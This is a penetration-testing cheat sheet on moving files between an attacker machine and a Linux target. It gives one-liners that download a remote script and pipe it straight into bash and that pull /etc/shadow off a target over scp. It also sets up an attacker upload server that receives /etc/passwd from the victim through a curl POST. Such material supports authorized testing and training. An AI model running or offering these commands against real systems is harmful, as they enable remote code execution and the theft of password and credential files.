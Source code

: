 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Linux

## From ATTACKER to TARGET

### Linux base64 download

```bash
# Read as base64
cat test.txt | base64 -w 0 ; echo

# Decode base64
echo -n 'aGVsbG8sd29ybGQK' | base64 -d
```

### Linux download

```bash
# Download into disk
wget http://$IP/test.txt -O /tmp/test.txt

# Download into disk
curl -o /tmp/test.txt http://$IP/test.txt

# Download into memory
wget -qO- http://$IP/test.sh | bash

# Download into memory
curl http://$IP/test.sh | bash
```

### SSH download

```bash
# Download file from target
scp root@$IP:/etc/shadow .
```

### Linux web upload

```bash
# ATTACKER
# Create self-signed certificate
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Start the UPLOAD server
mkdir https && cd https
python3 -m uploadserver 443 --server-certificate ../server.pem

# VICTIM
# Upload the file
curl -X POST https://$IP/upload -F 'files=@/etc/passwd' --insecure
```

## From TARGET to ATTACKER

### SSH upload

```bash
# Upload file to target
scp test.txt root@$IP:/tmp/
```

### Web server type

```bash
# Python server
python3 -m http.server
python2 -m SimpleHTTPServer

# PHP server
php -S 0.0.0.0:8000

# Ruby server
ruby -run -ehttpd . -p8000
```
